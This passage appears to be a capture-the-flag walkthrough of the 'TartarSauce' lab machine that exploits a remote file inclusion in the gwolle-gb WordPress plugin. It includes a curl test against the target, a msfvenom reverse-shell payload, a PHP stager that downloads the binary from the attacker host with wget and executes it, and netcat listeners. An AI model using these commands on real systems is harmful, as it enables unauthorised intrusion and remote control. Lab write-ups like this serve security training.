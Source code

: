 Try looking for exploits for the plugins:

```bash
searchsploit akismet
searchsploit gwolle
```

![ss2](./tartarsauce/ss2.png)

This looks promising:

- https://www.exploit-db.com/exploits/38861

The exploit claims a PHP RFI at the following URL for the `wp-load.php` page:

```
http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]
```

This is easy to test:

```bash
sudo python3 -m http.server 80
curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.25/
```

Running this `curl` shows the following remote request:

![curl1](./tartarsauce/curl1.png)

That is valid code execution. Use it to get a reverse shell on the target:

```bash
# make shell and PHP stager
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
cat <<END>>wp-load.php
<?php
  shell_exec('wget -O /dev/shm/bubba.elf 10.10.14.25/bubba.elf');
  shell_exec('chmod +x /dev/shm/bubba.elf');
  shell_exec('/dev/shm/bubba.elf');
?>
END
# start listeners
nc -nvlp 6969
sudo python3 -m http.server 80
```